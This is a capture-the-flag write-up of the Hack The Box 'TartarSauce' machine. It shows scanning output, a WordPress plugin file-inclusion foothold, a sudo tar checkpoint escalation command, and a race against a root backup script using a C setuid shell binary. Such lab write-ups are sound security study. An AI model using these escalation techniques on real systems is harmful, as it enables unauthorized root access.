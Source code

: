 Title: HTB TartarSauce box writeup
Tags: oscp, htb
Summary: Abusing custom scripts in a way to root shell
Date: 2020-10-19 21:50
Status: published

# Enumeration
Just the web server available:
<pre>
    Nmap 7.80 scan initiated Fri Oct 16 00:41:18 2020 as: nmap -sS -p- -v -oA enum/nmap-ss-all 10.10.10.88
    Nmap scan report for tartarsauce.htb (10.10.10.88)
    Host is up (0.060s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    Read data files from: /usr/bin/../share/nmap
    Nmap done at Fri Oct 16 00:42:08 2020 -- 1 IP address (1 host up) scanned in 49.32 seconds
</pre>
Interesting entries in `robots.txt`:
<pre>
    Nmap 7.80 scan initiated Fri Oct 16 00:46:10 2020 as: nmap -sC -sV -A -T4 -p80 -oA enum/nmap-sCVAT4-open 10.10.10.88
    Nmap scan report for tartarsauce.htb (10.10.10.88)
    Host is up (0.051s latency).
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 5 disallowed entries 
    | /webservices/tar/tar/source/ 
    | /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
    |_/webservices/developmental/ /webservices/phpmyadmin/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Landing Page
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), DD-WRT (Linux 3.18) (93%), DD-WRT v3.0 (Linux 4.4.2) (93%), Linux 4.10 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    TRACEROUTE (using port 80/tcp)
    HOP RTT      ADDRESS
    1   52.72 ms 10.10.14.1
    2   52.69 ms tartarsauce.htb (10.10.10.88)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Fri Oct 16 00:46:22 2020 -- 1 IP address (1 host up) scanned in 12.45 seconds
</pre>
Got trolled by the author a bit:

![troll 99 lvl](/cstatic/htb-tartarsauce/troll.png)

Gobustered root with big.txt from dirb wordlists:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /robots.txt (Status: 200)
    /server-status (Status: 403)
    /webservices (Status: 301)
</pre>

Gobustered `/webservices`:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /wp (Status: 301)
</pre>

Gobustered `/webservices/wp`:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /wp-admin (Status: 301)
    /wp-content (Status: 301)
    /wp-includes (Status: 301)
</pre>

Nikto results:
<pre>
    Nikto v2.1.6/2.1.5
    Target Host: 10.10.10.88
    Target Port: 80
    GET The anti-clickjacking X-Frame-Options header is not present.
    GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    GET Cookie PHPSESSID created without the httponly flag
    GET Entry '/webservices/monstra-3.0.4/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
    GET "robots.txt" contains 5 entries which should be manually viewed.
    GET Server may leak inodes via ETags, header found with file /, inode: 2a0e, size: 565becf5ff08d, mtime: gzip
    HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
    OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
    OSVDB-3233: GET /icons/README: Apache default file found.
</pre>

Wordpress at `/webservices/wp` seems to be broken since all the http links on
the pages missing slash after the scheme:

![broken links](/cstatic/htb-tartarsauce/broken-links.png)

This could be 'fixed' with burp since it can search and replace arbitrary
patterns in responses:

![burp replace](/cstatic/htb-tartarsauce/burp-replace.png)

Fixed wordpress looks like this:

![fixed wp](/cstatic/htb-tartarsauce/fixed-wp.png)

Gobustered `/webservices/monstra-3.0.4`:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /admin (Status: 301)
    /backups (Status: 301)
    /boot (Status: 301)
    /engine (Status: 301)
    /favicon.ico (Status: 200)
    /libraries (Status: 301)
    /plugins (Status: 301)
    /public (Status: 301)
    /robots.txt (Status: 200)
    /sitemap.xml (Status: 200)
    /storage (Status: 301)
    /tmp (Status: 301)
</pre>

After struggling a bit with Monstra CMS I decided to enumerate wordpress
further. It looks like Monstra instance is read-only and though admin creds
were guessed right away (admin:admin) it's barely possible to do something in
there since it doesn't allow to change themes or upload files. So the first
thing to do with wordpress is to spin up a `wpscan` to try to find vulnerable
components. I did it couple of times and ended up with aggressive scans and
it turned out tha there's some interesting plugin called `gwolle-db`:

![gwolle plug](/cstatic/htb-tartarsauce/wp-plugins.png)

Some versions of it are vulnerable to 
[RFI](https://www.exploit-db.com/exploits/38861) and this one also seems so:

![RFI](/cstatic/htb-tartarsauce/rfi.png)

# Exploitation
This RFI is a direct way to get a shell on the machine:

![unpriv shell](/cstatic/htb-tartarsauce/unpriv-shell.png)

According to `sudo -l` we could run `tar` as onuma user. With help of GTFObins
it was easily escalated to user shell with following command:
`sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`.
The user shell:

![user shell](/cstatic/htb-tartarsauce/user-shell.png)

# Privilege escalation
Quick search for files owned by user or group called `onuma` revealed some
interesting entry in `/var/backup`:

![backups](/cstatic/htb-tartarsauce/backuperer.png)

With help of pspy it was almost clear that `/usr/sbin/backuperer` is in charge
for creating these files:

![backuperer pspy](/cstatic/htb-tartarsauce/backuperer-pspy.png)

The file itself is just a bash script:
```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Notice the huge delay of 30 seconds right in the middle of the script. This
allows us to replace newly created `$tmpfile` with our own archive and abuse
tar running as root. I just grabbed latest archive from the machine and put
simple suid binary written in C in there:

```C
int main(void) {
    setgid(0);
    setuid(0);
    execl("/bin/sh", "sh", 0);
}
```
Granted it `6755` perms and archived back in such a manner:
`sudo tar -zcvf --owner=root --group=root backup.tar.gz var/`. This is to
preserve file permission that I've set for suid binary in my kali machine. Since
it will be unpacked as root, file perms will be effectively set to `6755` and
owner will be `root:root`. So to exploit that I transferred this archive back
to the tartarsauce, waited until backuperer started by schedule and replaced
temporary archive with the one I've created. Couple of seconds later I've got 
it unpacked with suid shell within:

![root shell](/cstatic/htb-tartarsauce/root-shell.png)
